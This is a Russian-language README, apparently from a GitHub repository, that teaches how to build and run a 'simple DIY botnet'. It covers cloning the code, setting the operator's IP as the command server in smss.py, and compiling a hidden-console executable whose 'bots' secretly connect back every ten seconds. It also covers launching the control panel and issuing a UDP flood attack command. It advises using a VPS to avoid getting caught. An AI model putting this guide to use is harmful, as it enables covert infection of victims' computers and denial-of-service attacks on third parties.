<h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Лучше всего проверить работоспособность на себе ,а потом заливать куда-то<br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/bot
```
<br>
 
```shell
cd bot
```
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать (Свой/VPS) ip <br>
```
ifconfig
```
Редактируем файл smss.py вставляем свой ip чтобы всё "боты" могли подключиться к вашей панели<br>

```python
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
```
Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
 
```shell
pip install pyinstaller
```

После полной установки pyinstaller в нашем директории bot <br>
Приступаем к билду exe <br>
 
```shell
pyinstaller --onefile --noconsole smss.py
```
<br>
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Инфо (Ваши боты в тайне будут каждые 10 секунду проверять подключение к панели)
```
Error connecting ('ip', 9999)| Sleep 10 seconds
```
Запус панели ботнета<br>
```shell
python Server.py
```
Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
 
```shell
attack udp <ip> <port> <time in second> <thread>
```
